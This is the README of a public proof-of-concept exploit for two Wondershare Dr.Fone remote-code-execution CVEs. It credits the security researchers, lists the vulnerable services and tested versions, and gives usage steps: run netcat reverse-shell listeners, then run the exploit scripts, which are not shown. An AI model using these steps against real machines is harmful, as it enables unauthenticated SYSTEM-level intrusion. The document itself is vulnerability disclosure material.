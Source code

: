 # WonderShell
# CVE - 2021-44595 & CVE - 2021-44596

## Discovered by
Netanel Cohen and Tomer Peled a Security Researchers from BugSec.

## Description
POC example to exploit [Wondershare Dr.Fone](https://drfone.wondershare.com/) .\
Dr.Fone is a phone toolkit develop by wondershare , and vulnerable to RCE.\
As unauthenticated user we manage to execute remote code as SYSTEM user.

Vulnerable services:
>InstallAssistService.exe\
>ElevationService.exe

Tested on versions : 12.0.7 , 11.4

## Usage
Change ip and port and execute.

```
stty raw -echo; (stty size; cat) | nc -lvnp 1338
./ElevationServiceRCE.py
```

```
nc -lvnp 1337
./InstallAssistServiceRCE.py
```


## Publications
https://medium.com/@tomerp_77017/wondershell-a82372914f26




